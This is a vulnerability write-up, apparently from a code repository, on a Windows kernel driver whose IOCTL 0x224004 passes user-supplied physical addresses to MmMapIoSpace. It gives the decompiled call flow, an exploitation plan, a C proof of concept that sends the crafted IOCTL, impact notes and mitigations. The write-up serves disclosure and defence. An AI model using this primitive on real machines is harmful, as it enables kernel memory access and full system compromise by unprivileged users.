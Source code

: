 # Windows Kernel Driver Exploitation - Vulnerable IOCTL and Physical Memory Mapping

## Vulnerability Summary

The vulnerable driver exposes an IOCTL handler function, which processes various IOCTL codes, including `0x224004`. This IOCTL path passes unchecked user input to `MmMapIoSpace`, a kernel function that maps physical memory into virtual address space.

### Function Call Flow:

Reverse engineered using Ghdira
```
entry()
 -> FUN_00011500(param_1)
     -> FUN_00011460(param_1, IRP)
         -> if IOCTL == 0x224004:
                -> FUN_00011040(device, IRP, user_buffer)
                    -> MmMapIoSpace(physical_addr, size, 0)
```

### Core Vulnerability

In `FUN_00011040`, user input is parsed and used to call `MmMapIoSpace()`:

```c
puVar2 = *(undefined8 **)(param_2 + 0x18);  // User input buffer
uVar1 = *(uint *)(puVar2 + 1);              // Size (user controlled)
...
puVar4 = MmMapIoSpace(PhysicalAddress, Size, 0);
```

There are insufficient validations on:

* The physical address to be mapped
* The size of the mapping

This allows arbitrary physical memory access from user-mode by crafting a malicious IRP input.

## Exploitation Plan

To exploit the vulnerability:

1. Open a handle to the device.
2. Send a crafted buffer with a physical address and size.
3. The driver maps the physical memory.
4. Use the mapped region to read/write kernel memory.

### PoC Code (C)

```c
#include <windows.h>
#include <stdio.h>

#define IOCTL_VULN 0x224004

int main() {
    HANDLE hDevice = CreateFileA("\\\\.\\ADV64DRV",
                                 GENERIC_READ | GENERIC_WRITE,
                                 0,
                                 NULL,
                                 OPEN_EXISTING,
                                 0,
                                 NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open device: %lu\n", GetLastError());
        return 1;
    }

    struct {
        uint64_t phys_addr;
        uint32_t size;
        uint32_t padding;
    } input = {
        .phys_addr = 0x100000, // Physical address (e.g., 1MB)
        .size = 0x1000         // One page (safe size)
    };

    DWORD bytesReturned;
    BOOL result = DeviceIoControl(hDevice,
                                  IOCTL_VULN,
                                  &input,
                                  sizeof(input),
                                  NULL,
                                  0,
                                  &bytesReturned,
                                  NULL);

    if (result) {
        printf("[+] IOCTL sent successfully.\n");
    } else {
        printf("[-] IOCTL failed: %lu\n", GetLastError());
    }

    CloseHandle(hDevice);
    return 0;
}
```

## Impact

This vulnerability provides a powerful primitive that allows unprivileged users to:

* Read kernel memory
* Write to kernel memory
* Hijack control structures (e.g., token stealing)
* Fully compromise the system

## Mitigation

Drivers should:

* Never allow user-mode to specify physical addresses directly.
* Validate all IOCTL input strictly.
* Avoid using `MmMapIoSpace()` on user-controlled input.
